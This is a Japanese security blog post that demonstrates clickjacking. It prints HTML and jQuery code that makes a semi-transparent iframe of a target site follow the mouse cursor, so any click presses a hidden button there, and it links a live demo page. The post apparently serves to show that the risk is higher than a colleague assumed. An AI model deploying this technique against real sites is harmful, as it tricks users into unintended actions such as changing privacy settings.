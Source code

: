 <div style="text-align:center;">[f:id:motikan2010:20170407185617g:plain:w600]</div>
  

<div class="contents-box">
  <p>[:contents]</p>
</div>

## はじめに

▼ デモサイト  
[http://oncetec.sub.jp/blog_items/20170407/trap.html:title]  

　2017年度に入りましたが、昔ながらのクリックジャッキングの話  

　『クリックジャッキング』ってなんぞやという方は下の記事が大変解りやすいです。  
[http://blog.tokumaru.org/2013/03/clickjacking-report-by-IPA.html:embed:cite]

<!-- more -->

## 検証

### クリックジャッキングを成立させることは難しいのか

　クリックジャッキングのことで同期の方と話した時に、**おとりとなるボタンを押下させることがそもそも難しい**ということで、リスクは低いと言っていた。  
[f:id:motikan2010:20170407190439p:plain:w500]  
[参考：知らぬ間にプライバシー情報の非公開設定を公開設定に変更されてしまうなどの『クリックジャッキング』に関するレポート]([http://www.ipa.go.jp/files/000026479.pdf)  

　確かに、いろんなサイトでのクリックジャッキングの説明を見てみると囮となるボタンやリンクに『**ここをクリック**』だったり『**おすすめ情報！！**』になっており、見るからに怪しく、騙されてクリックする人なんていなさそう。  
[f:id:motikan2010:20170407185323p:plain]

　自然にボタンがページに紛れ込んでいても特定の箇所をクリックさせることがそもそも難しい気がする・・・。  
[f:id:motikan2010:20170407185509p:plain]  
そう考えてみると、攻撃を成立させることは難しそう。  

### どこをクリックしてもターゲットとなるボタンを押下させる

常にマウスカーソルにターゲットとなるサイト(iframe内)が来るようにJavaScriptで制御してみる。
http://biboroku.watanabehiroki.net/markup/javascript/jquery-sample-2

あとは、ターゲットとなるサイト内のボタンが左上に来るように調整する。
http://blog12345.seesaa.net/article/281787492.html

##### ターゲットとなるiframeは下記のように記述

<div class="md-code" style="width:100%">
```html
<div id="target" style="width:180px;height:50px;margin:0px;opacity:0.5;overflow:hidden;">
  <iframe width="300px" height="650px" scrolling="no" frameborder="0"
    style="margin:-350px 0 0 -25px;overflow:hidden;" src="./target.html"></iframe>
</div>
```
</div>

##### divがマウスカーソルに追跡するように記述

<div class="md-code" style="width:100%">
```javascript
$('html').mousemove(function(e){
    $('#target').css({
      top:e.pageY-25,
      left:e.pageX-50
      });
  });
```
</div>

デモサイト
[http://oncetec.sub.jp/blog_items/20170407/trap.html:title]  

　透過50%です。透過100%にしたらまず気づかれることはなさそう。  
[f:id:motikan2010:20170407185617g:plain]  

　これでどこをクリックしても**iframe内のボタン**をクリックしたことになります。
